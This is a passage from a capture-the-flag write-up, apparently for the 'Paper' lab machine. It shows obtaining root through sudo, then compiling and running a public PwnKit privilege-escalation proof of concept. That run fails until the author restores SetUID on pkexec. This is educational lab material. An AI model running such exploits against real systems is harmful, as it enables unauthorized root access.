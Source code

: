     [secnigma@paper ~]$ sudo bash
    [sudo] password for secnigma: 
    [root@paper secnigma]#



And I can get the final flag:



    [root@paper ~]# cat root.txt
    1f6cdd61************************



## Beyond Root - Revisiting PwnKit

### Verify Failure

On noticing that `pkexec` was not SetUID, I gave up on PwnKit and moved
to other things (which is a reasonable thing to do). I wanted to come
back and play with that now that I have root access.

I'll grab a POC pretty much at random (I'm going with [this
one](https://github.com/luijait/PwnKit-Exploit/blob/main/exploit.c) by
luijait). I'll save a copy of `exploit.c` on Paper and then compile it:



    [dwight@paper shm]$ cc -Wall exploit.c -o exploit
    [dwight@paper shm]$ ls -l
    total 28
    -rwxrwxr-x 1 dwight dwight 21992 Jun  5 16:15 exploit
    -rw-rw-r-- 1 dwight dwight  1547 Jun  5 16:15 exploit.c



I run it, and it complains that "pkexec must be setuid root":



    [dwight@paper shm]$ ./exploit 
    Current User before execute exploit
    hacker@victim$whoami: dwight
    Exploit written by @luijait (0x6c75696a616974)
    [+] Enjoy your root if exploit was completed successfully
    GLib: Cannot convert message: Could not open converter from “UTF-8” to “PWNKIT”
    pkexec must be setuid root



### Re-SetUID pwnkit

As root, I'll change `pkexec` back to SetUID permissions:



    [root@paper ~]# chmod 4755 /usr/bin/pkexec
    [root@paper ~]# ls -l /usr/bin/pkexec
    -rwsr-xr-x. 1 root root 29816 May 11  2019 /usr/bin/pkexec

